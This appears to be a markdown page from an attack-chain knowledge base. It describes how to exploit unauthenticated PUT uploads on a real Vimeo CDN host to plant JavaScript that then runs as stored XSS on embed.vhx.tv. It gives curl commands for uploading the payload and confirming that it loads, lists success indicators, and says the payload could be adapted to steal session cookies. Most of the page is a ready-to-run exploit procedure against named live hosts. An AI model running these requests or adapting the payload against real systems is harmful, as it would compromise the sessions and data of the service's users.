

# Arbitrary File Upload on Vimeo CDN Leading to Stored XSS

Multi-stage attack chain demonstrating exploitation of improper access control on vpe.cdn.vimeo.tv to upload arbitrary JavaScript files containing XSS payloads, which are then served via embed.vhx.tv, compromising user sessions for all affected customers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform with access to vpe.cdn.vimeo.tv (Vimeo CDN)
- Google Cloud Storage integration (bypassed via specific Content-Type)
- No authentication required for vulnerable endpoints

### Initial Access Requirements

- Public internet access to the CDN
- No credentials needed due to improper access control
- Ability to craft HTTP PUT requests

## Detailed Attack Procedures

### Step 1: Upload Malicious JavaScript to CDN
procedure: [[procedures/Upload-Malicious-JS-to-Vimeo-CDN]]

**Objective**: Exploit the lack of authentication for PUT requests with blank or application/octet-stream Content-Type to upload a JavaScript file containing an XSS payload to an arbitrary path on vpe.cdn.vimeo.tv.

**Instructions**: Use [[commands/curl-put-upload-xss-to-vimeo-cdn]] to send a PUT request with the payload. This bypasses Google Cloud Storage authentication that applies to other Content-Types.

```bash
curl -X PUT https://vpe.cdn.vimeo.tv/something.js \
  -H "Content-Type: application/octet-stream" \
  -H "Content-Length: 10" \
  --data "alert(document.domain)" \
  --connect-timeout 10
```

**Expected Output**: HTTP 200 or 201 response indicating successful upload or overwrite of the file /something.js on the CDN.

**Success Indicators**:
- No authentication error (e.g., unlike with text/javascript Content-Type)
- File is accessible via GET request to https://vpe.cdn.vimeo.tv/something.js
- Response body contains the uploaded payload when fetched

### Step 2: Trigger Stored XSS on Embed Site
procedure: [[procedures/Trigger-Stored-XSS-on-Embed-Vhx-Tv]]

**Objective**: Load the malicious JavaScript file in the context of embed.vhx.tv, where it is included without sanitization, executing the XSS payload and potentially stealing user sessions or data for all customers.

**Instructions**: Visit or embed a page on embed.vhx.tv that includes the uploaded JS file (e.g., via script tag src="https://vpe.cdn.vimeo.tv/something.js"). The payload executes in the browser context.

```bash
curl -X GET https://embed.vhx.tv/some-embed-page \
  -H "User-Agent: Mozilla/5.0 (compatible; Test)" \
  --output embed_page.html
```

Inspect the response or load in a browser to confirm the script inclusion and alert execution.

**Expected Output**: The JavaScript payload executes, e.g., an alert box showing the document domain (vhx.tv), indicating stored XSS success.

**Success Indicators**:
- Alert or other payload effect visible in the browser
- Malicious script loaded from CDN in embed page source
- Potential session compromise if payload is adapted to exfiltrate cookies

## Attack Chain Summary

### Key Achievements

1. Bypassed CDN authentication to upload arbitrary files
2. Injected stored XSS affecting all embed.vhx.tv users
3. Demonstrated potential for session hijacking or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
